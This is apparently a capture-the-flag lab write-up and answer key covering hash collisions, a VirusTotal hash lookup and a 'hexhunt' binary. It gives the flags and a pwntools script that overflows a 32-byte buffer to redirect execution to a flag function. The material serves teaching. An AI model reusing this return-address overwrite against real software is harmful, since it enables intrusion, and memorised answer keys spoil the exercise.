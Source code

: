   Go to the VirusTotal website. Under the 'Search' tab, enter the SHA256 hash and search.
  Under the 'Details' tab, scroll to the 'Names' section. You will find that the hash is associated with the 'WannaCry' malware.
- What is the vulnerability demonstrated by the hashbrown.out program, where 2 different pieces of data give the same hash output?
  ```
  Hash collision
  ```
- What is the flag obtained from running the `hashbrown.out` program?
  
  You can find a repositiory of files with MD5 hash collisions at `https://github.com/corkami/collisions`.  
  Pass them as inputs to the program as indicated in the question hints

## Hexhunt
- What is the name of the vulnerability found when using the `-o` option in the `hexhunt.out` binary?
  ```
  Buffer overflow
  ```
- What is the size of the buffer used?

  Keep increasing the length of the input until the buffer gets overflowed and the flag is revealed...
  ```
  32
  ```
- What is the flag obtained?
  ```
  0x4067{HEXHUNT_OVERFLOWING_WITH_GOOD_VIBES}
  ```
- When using the `-d` option, you are given a 'payload quota' of 16. Increase this payload quota in order to obtain the flag!
  ```
  0x4067{SEE_YOU_ON_19_JANUARY_2038}
  ```
- The flag also contains a date. Investigate why this date is important with regards to computer systems.
  
  Search online about the "Year 2038 problem"

- When using the `-r` option, you are asked to send some data to the target. Exploit this vulnerability to call the `returnAFlag()` function present in the binary.
  
  Use the provided Python script to craft a payload.
  ```py
  import pwn

  args = ['./hexhunt.out', '-r', 'ntu.edu.sg']
  p = pwn.process(args)
  elf = pwn.ELF(p.argv[0])

  returnAFlag_addr = elf.symbols['returnAFlag']
  print(f"returnAFlag_addr={hex(returnAFlag_addr)}")

  payload = b"a"*32 + pwn.p64(0) + pwn.p64(returnAFlag_addr)

  p.sendline(payload)
  p.interactive()
  ``` 
## Timelapse
- What is a vulnerability where an attacker can gain information about a system's secret or private data by measuring the time it takes for certain operations to complete?
  ```
  Time based or timing side channels
  ```
- What is the flag obtained from the `timelapse.out` program?